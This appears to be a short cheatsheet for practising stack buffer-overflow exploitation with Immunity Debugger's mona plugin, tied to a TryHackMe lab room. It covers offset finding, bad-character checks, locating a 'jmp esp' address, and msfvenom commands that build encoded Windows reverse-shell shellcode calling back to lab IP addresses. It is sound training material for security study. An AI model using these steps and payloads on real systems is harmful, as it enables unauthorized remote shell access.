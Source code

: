 ## Mona CheatSheet

**Setup your working directory**
In Immunity Debugger, type the following to set a working directory for mona.
`!mona config -set workingfolder c:\mona\%p`

https://github.com/corelan/mona
https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

<br>
<br>


# Generating unique patterns
buffer overflow stuff

## cyclic patterns
```
from pwn import *
cyclic(3000)
cyclic_find('abdd')
out[100] 2907
```


OR
```
cyclic_metasploit(3000)
cyclic_metasploit_find(0x33794332) 
```
OR

```
msf-pattern-create -l 3000
msf-pattern-offset -l 3000 -q 33794332

```
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```



`!mona findmsp -distance 600 `

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb  -l 2400 -q 6F43396E`

# Bad Chars

**Generate a byte array**

`!mona bytearray -b "\x00"`

<br>
<br>

**Run your badchar script and compare with mona**

**compare your stuff**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

**Add newly found bad chars to your list to be removed, and regenerate your badchars list**

`!mona bytearray -b "\x00\x0a"`

<br>
<br>

**Resend the new list of badchars, and then compare again**

`!mona compare -f C:\mona\bytearray.bin -a ESP`

<br>
<br>

## Finding a jump point 
You have control of EIP, but need an address that will jump to a new stack location. You need to find a `jmp esp`

```
!mona jmp -r esp -cpb "\x00"
!mona jmp -r esp -cpb "\x00\x0a\x0d"
```
This will return you a list of memory addresses that you can use. Pick one and save it. We'll need it in a second.


## MSF Payloads

`msfvenom -l payloads `

`msfvenom -p windows/shell_reverse_tcp LHOST=10.6.19.12 LPORT=9009 EXITFUNC=thread -b "\x00" -f python -v "shellcode"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"`

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.56.103 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a" > shelloutput1.txt`

`sed -z 's/\n//g' shelloutput1.txt | sed -z 's/"//g' - `

https://tryhackme.com/room/bufferoverflowprep 

https://www.youtube.com/watch?v=1X2JGF_9JGM 

